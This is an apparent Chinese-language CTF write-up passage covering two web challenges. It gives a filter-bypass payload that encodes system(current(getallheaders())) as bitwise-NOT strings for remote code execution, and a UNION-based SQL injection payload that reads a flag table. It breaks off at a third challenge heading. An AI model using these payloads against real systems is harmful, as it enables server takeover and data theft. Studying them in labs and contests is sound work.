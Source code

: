 看到第一个过滤，就是[无字母数字命令执行](https://blog.csdn.net/miuzzx/article/details/109143413?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522166183464616782388057456%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=166183464616782388057456&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-109143413-null-null.nonecase&utm_term=%E6%97%A0%E5%AD%97%E6%AF%8D%E6%95%B0%E5%AD%97&spm=1018.2226.3001.4450)

然后第二个过滤，就是[无参数构造实现RCE](https://xz.aliyun.com/t/10212#toc-4)

直接payload

system(current(getallheaders()));

```
?code=[~%8c%86%8c%8b%9a%92][!%FF]([~%9c%8a%8d%8d%9a%91%8b][!%FF]([~%98%9a%8b%9e%93%93%97%9a%9e%9b%9a%8d%8c][!%FF]())); 
```

需要注意的是：要用`[!%FF]`来进行分割

![image-20220830130353724](img/image-20220830130353724.png)

##  easygo 

下载附件，是 go.mod，里面有个 github 地址

然后就是出现了利用姿势

```
juice/1' UNION SELECT 1,flag FROM super_secret_table--+
```

##  can_u_login 
